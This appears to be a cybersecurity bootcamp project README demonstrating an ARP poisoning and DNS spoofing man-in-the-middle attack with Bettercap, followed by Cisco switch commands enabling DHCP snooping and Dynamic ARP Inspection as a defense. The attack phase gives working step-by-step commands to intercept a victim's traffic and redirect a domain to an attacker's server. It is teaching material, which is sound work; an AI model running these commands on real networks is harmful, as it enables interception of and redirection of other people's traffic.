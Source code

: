 # Operation NetNabber
Fullstack Academy - Cybersecurity - Cohort 2208-fcb-et-cyb-pt
Team Members: Drago Bonacich and Troy Schmitz

NOTE: THIS DEMONSTRATION IS INTENDED FOR EDUCATIONAL PURPOSES ONLY. WE DO NOT CONDONE THE USE OF HACKING TOOLS FOR ILLEGAL PURPOSES.

Operation NetNabber was created as a two-phase demonstration, an attack and a defense strategy. Phase one utilizes a powerful network sniffing and spoofing tool known as Bettercap, which is included in the latest versions of Kali Linux. This tool allowed us to conduct an ARP poisoning attack between a Windows machine and its default gateway, letting us act as a Man in the Middle and giving us the ability to analyze any traffic between the two. Additionally, we were able to use a feature within the same tool to spoof the DNS cache when our target connected through us, and automatically navigated our victim’s browser to a malicious site running on our attacking machine. Phase two demonstrated the configuration of a defensive technology for these ARP poisoning attacks known as Dynamic ARP Inspection. This phase of our project was conducted on a network simulation tool from Cisco known as Packet Tracer. It allowed us to build a simulated network, demonstrate how to configure the correct settings to enable Dynamic ARP Inspection, and show the audience that an ARP spoofing attempt was not successful with this technology enabled.

# Link to Video Demonstration: 
https://youtu.be/8abLuPq8g7c



# Phase 1: Attack

# Change IP Forwarding in Kali Linux so that auto packet drop is disabled:
sudo echo 1 > /proc/sys/net/ipv4/ip_forward

# Change Windows registry to Enable IP Forwarding:
In registry editor browse to  HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
Modify the value of the parameter IPEnableRouter from 0 to 1 and close the registry editor window
Restart your system and execute the command "netsh interface ipv4 show interface <if id>" to verify whether IP forwarding is enabled.

# Bettercap for Kali Linux (May not be natively installed and must be run with sudo privelages):
sudo bettercap

# Probe the network to see a list of devices connected:
net.probe on

# Lists all devices on the network with their MAC address and IP address
net.show

# Tells the program to target not only the IP address, but also the gateway that it's connected to so that you can see traffic going both ways:
set arp.spoof.fullduplex true

# Set your desired target IP address for ARP spoofing:
set arp.spoof.targets <ip address>

# Setting up DNS spoof so that when the target connects to "wikidot.com" it redirects the traffic to the attacking Kali Linux apache server:
set dns.spoof.domains wikidot.com

# Launch ARP poisoning attack:
arp.spoof on

# Turns the DNS spoof on:
dns.spoof on

# Turn the network sniffer on to see the traffic from the victim and the gateway:
net.sniff on



# Phase 2: Defense

*** The following instructions are for configuration of Dynamic ARP Inspection on Cisco managed switches ***

# Open / Connect to the CLI of the Cisco managed switch.

# Enter user execution mode:
en

# Enter global configuration mode:
config t

# Enable DHCP Snooping globally:
ip dhcp snooping

(DHCP snooping will disallow all DHCP "offer" and "acknowledge" packets through the switch, except on the ports we set as Trusted. This will prevent any other device from acting as the DHCP server)

# Enter configuration mode for the interface connected to the DHCP server:
interface <dhcp_connected_interface>

# Trust the interface connected to the DHCP server:
ip dhcp snooping trust

# Exit the interface configuration and enter global configuration:
Ctrl + Z
config t

# Enable Dynamic ARP Inspection on the desired VLAN:
ip arp inspection vlan <#_vlan>

